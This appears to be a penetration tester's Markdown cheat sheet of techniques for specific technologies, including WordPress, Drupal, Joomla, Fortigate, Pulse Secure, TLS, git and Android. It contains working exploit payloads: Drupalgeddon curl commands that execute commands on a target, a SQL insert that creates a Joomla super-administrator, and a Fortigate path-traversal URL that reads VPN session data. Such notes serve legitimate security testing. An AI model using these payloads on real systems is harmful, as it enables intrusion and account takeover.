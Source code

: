 # Techno Specific

## **CMS**

### Tools

```text
CMSmap
WhatCMS
Nikto
Wig.py
Wpseku
WPScan
droopescan
joomscan
```

---

### Wordpress

Find version

* into xml via website.com/rss
* Html source code
* CMSmap or WPScan

XMLrpc

List methods

```bash
POST /xmlrpc.php HTTP/1.1
Host: <target>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 95

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

if there is pingback, try :

```bash
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<ip_pingback>:<port></string></value>
</param><param><value><string>http://<ip_pingback>:<port>/toto</string>
</value></param></params>
</methodCall>
```

---

### Drupal

```bash
drupal , intruder from 0 to 500 on /node/$

/imce

Druppalgeddon 2/3
```

POC1 drupal 8

```bash
  curl -k -i 'https://filalapat.fr/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=uname -a'
```

POC2 drupal 8

```bash
curl -k -i 'https://filalapat.fr/user/register?element_parents=timezone/timezone/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=exec&timezone[a][#lazy_builder][][]=touch+/tmp/2'
```

POC3 drupal 7

```bash
 curl -k -s 'http://localhost/drupal-7.55/?q=user/password&name\[%23post_render\]\[\]=passthru&name\[%23type\]=markup&name\[%23markup\]=uname+-a' \
    --data "form_id=user_pass&_triggering_element_name=name" | grep form_build_id
```

---

### Joomla

Joomla 1.5

```bash
user:md5_gen(1)MD5$SALT
```

*  [https://www.exploit-db.com/exploits/6234](https://www.exploit-db.com/exploits/6234)
* [http://www.passwordtool.hu/joomla-password-hash-generator-salt-key](http://www.passwordtool.hu/joomla-password-hash-generator-salt-key)

```bash
creer new users INSERT INTO jos_users (name, username, password, usertype, gid, params) VALUES ('toto', 'toto', 'fcba92f4dd6b902f8a66054b8327ae6b:F2sVBzlFOUl51D3HtRZ0tionaJQGQqB', 'Super Administrator', 25, ''); INSERT INTO jos_core_acl_aro VALUES (NULL, 'users', LAST_INSERT_ID(), 0, 'toto', 0); INSERT INTO jos_core_acl_groups_aro_map VALUES (25, '', LAST_INSERT_ID());
```

---

## **Reactjs**

- [React Developer Tools](https://addons.mozilla.org/fr/firefox/addon/react-devtools/) (edit props/state/hooks values)

Security Testers: Inject JavaScript and JSON wherever you can and see what happens. 
Developers: Don’t ever `useeval()` or `dangerouslySetInnerHTML`. Avoid parsing user-supplied JSON.

---


## **Angularjs**

check the bypassSecurityTrustX / innerHTML function

```bash
bypassSecurityTrustHtml
bypassSecurityTrustScript
bypassSecurityTrustStyle
bypassSecurityTrustUrl
bypassSecurityTrustResourceUrl
```

---

## **ckfinder**

```bash
ckfinder/ckfinder.html
```

---

## **Git**

```bash
https://github.com/internetwache/GitTools/tree/master/Dumper
https://github.com/arthaud/git-dumper
run script post-merge https://docs.gitlab.com/ee/administration/custom_hooks.html  .git/hooks
```

---

## **Stormshield**

* TCP PORT 1300

[https://documentation.stormshield.eu/SNS/v3/fr/Content/CLI\_Serverd\_Commands\_reference\_Guide\_v3/Introduction.htm](https://documentation.stormshield.eu/SNS/v3/fr/Content/CLI_Serverd_Commands_reference_Guide_v3/Introduction.htm)

Check default password : \(UpdatePasswd=1 if factory password, 0 if the password already have been changed\) CHPWD 101 code=00a01000 msg="Begin" format="section" \[Result\] UpdatePasswd=0

---

## **Fortigate**

```bash
/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
```

---

## **Dana**

* [https://XXXX/dana-na/setup/psalinstall.cgi](https://XXXX/dana-na/setup/psalinstall.cgi)

---

## **GPG decode**

```bash
gpg --decrypt Test.zip.gpg > test.zip ( popup password )
```

---

## **SSL / TLS**

* [testssh.sh](https://github.com/drwetter/testssl.sh)

check Heartbleed

```bash
cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done
```

Openssl

```bash
openssl s_client -cipher BEAST -connect <target>:443
openssl s_client -connect <target>:443 -ssl3

# Expiration date
openssl s_client -connect <target>:443 | openssl x509 -noout -dates
```

check lucky13

```bash
openssl s_client -cipher DES-CBC3-SHA -connect xx.fr:443
```

---

## **SSH** 

check if 4096 key

```bash
ssh-keygen -l -f key.pub
```

---

## **Android**

`Apktool`

```bash
apktool d app_name.apk
```

Extract sensitive info

```bash
grep -EHirn "accesskey|admin|aes|api_key|apikey|checkClientTrusted|crypt|http:|https:|password|pinning|secret|SHA256|SharedPreferences|superuser|token|X509TrustManager|insert into" APKfolder/
```



